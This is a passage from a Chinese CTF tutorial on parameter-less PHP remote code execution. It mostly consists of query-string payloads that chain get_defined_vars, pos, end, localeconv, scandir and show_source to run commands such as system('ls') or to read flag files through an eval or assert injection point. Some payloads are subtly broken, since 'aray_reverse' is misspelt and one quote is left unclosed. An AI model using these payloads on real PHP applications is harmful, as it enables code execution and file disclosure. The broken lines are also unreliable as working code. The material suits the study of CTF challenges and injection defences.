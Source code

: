 ##### get_defined_vars()
&emsp;&emsp;返回所有已定义的<font color=yellow>变量的值</font>,然后对应成数组（注：如果有多个请求方法，返回数组的顺序为GET->POST->COOKIE->FILES），例如：定义了<font color=pink>cmd=system("ls");</font>那么执行<font color=black>print_r(get_defined_vars());</font>时，将会回显<font color=red>[cmd]=>system("ls);</font>这是我们就可以用<font color=green>pos来提取出参数里面的值system("ls")</font>,什么，你说没有变量怎么办？笨蛋，不知道自己编一个吗？我们可以这样
```
?code=print_r(end(pos(get_defined_vars())));&cmd=system("ls");
```
&emsp;&emsp;注意只要后面的那个变量，用end提取(别问，问就是code我们也算变量啵，定义了两个变量就有两个数组，我们用后面那个cmd的)，这样就可以输出system("ls");同理，我们只要把print_r换成eval,assert就可以执行命令了，所以payload通常是:
```
?code=assert(end(pos(get_defined_vars())));&cmd=system("ls");
```

##### 大杂烩
&emsp;&emsp;不解释了，看图
![scandir](/images/大杂烩.png)  
&emsp;&emsp;用法：
```
print_r(localeconv()); //查看当前目录文件名，形式同get_defined_vars的排列一样
print_r(current(localeconv())); // 同pos，读取第一个数组的值
print_r(scandir(current(localeconv()))); //读取当前目录（第一个数组所在目录）下的文件名
print_r(aray_reverse(scandir(current(localeconv())))); //同end的作用，如果flag在最后一个，倒转使它变成第一个，再用current对向它，show_source进行回显
```
&emsp;&emsp;那么最终的payload就为：
```
?code=show_source(current((aray_reverse(scandir(current(localeconv()))))));
```
&emsp;&emsp;同理，getcwd()也可以达成目的，那么另一种的payload就为：
```
?code=show_source(end(scandir(getcwd())));
```
&emsp;&emsp;对照上面的函数，我们还可以用读取上一级目录的随机文件名(直到随机到flag即可)，payload如下：
```
?code=show_source(array_rand(array_flip(scandir(dirname(chdir(dirname(getcwd())))))));
```
&emsp;&emsp;payload不是一成不变的，根据题目使用实用的函数，看你的熟练度如何了。  
&emsp;&emsp;推荐博客：[无参RCE](https://blog.csdn.net/2301_76690905/article/details/133808536)